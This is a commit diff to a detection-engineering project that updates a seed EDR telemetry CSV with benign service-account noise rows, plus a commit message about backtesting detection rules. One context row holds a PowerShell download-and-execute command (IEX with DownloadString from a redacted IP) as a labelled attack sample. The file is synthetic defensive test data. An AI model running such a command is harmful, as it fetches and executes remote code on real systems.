

Before and after one commit to LeeRenJie/sentinel-brief, a CSV file: seed_data/edr.csv, drawn as a sheet.

Commit message:
Add backtested detection loop: prove the SPL fix on real data
The Detection Engineer no longer just proposes a fix — it replays the old and
new rules over the live indexes and reports a deterministic outcome:
old rule 4 alerts (3 false) -> new rule 1 alert (0 false) = 75% fewer alerts,
true positive retained. The false positives are benign service accounts
(svc_monitor/svc_patch/svc_vuln) that fan out across admin shares with no
correlated attack-tool EDR signal — that correlation is the honest discriminator.

- backtest.py: deterministic metric from real query results (live-gated, fail-safe)
- DetectionBacktest schema + render climax; seed extended with 3 benign noisy accounts
- old-rule backtest query routed through MCP splunk_run_query
- 40 offline tests (mock mode never runs the backtest)

```diff
--- a/seed_data/edr.csv
+++ b/seed_data/edr.csv
@@ -1,4 +1,6 @@
 _time,index,host,user,process,parent_process,cmdline,signal,severity,action,scenario
+2026-05-31T00:21:40Z,edr,PATCH-01,svc_patch,wuauclt.exe,svchost.exe,wuauclt.exe /detectnow /updatenow,,info,allowed,benign-noise
+2026-05-31T00:46:00Z,edr,SCAN-02,svc_vuln,nessusd.exe,services.exe,nessusd.exe --scan creds=svc_vuln,,info,allowed,benign-noise
 2026-05-31T01:00:05Z,edr,WKS-201,alice,chrome.exe,explorer.exe,chrome.exe --profile-directory=Default,,info,allowed,benign-noise
-2026-05-31T01:33:20Z,edr,BKP-09,svc_monitor,robocopy.exe,backup_agent.exe,robocopy \\FS-01\C$\logs D:\archive /MIR,,info,allowed,benign-noise
+2026-05-31T01:33:20Z,edr,MON-03,svc_monitor,robocopy.exe,backup_agent.exe,robocopy \\FS-01\C$\logs D:\archive /MIR,,info,allowed,benign-noise
 2026-05-31T02:08:12Z,edr,WKS-014,jdoe,powershell.exe,explorer.exe,powershell -enc <b64> IEX(New-Object Net.WebClient).DownloadString('http://185.x.x.x/a.ps1'),suspicious_download,high,detected,lateral-movement
```
Also changed, not shown: seed_data/auth.csv, 11 other files.
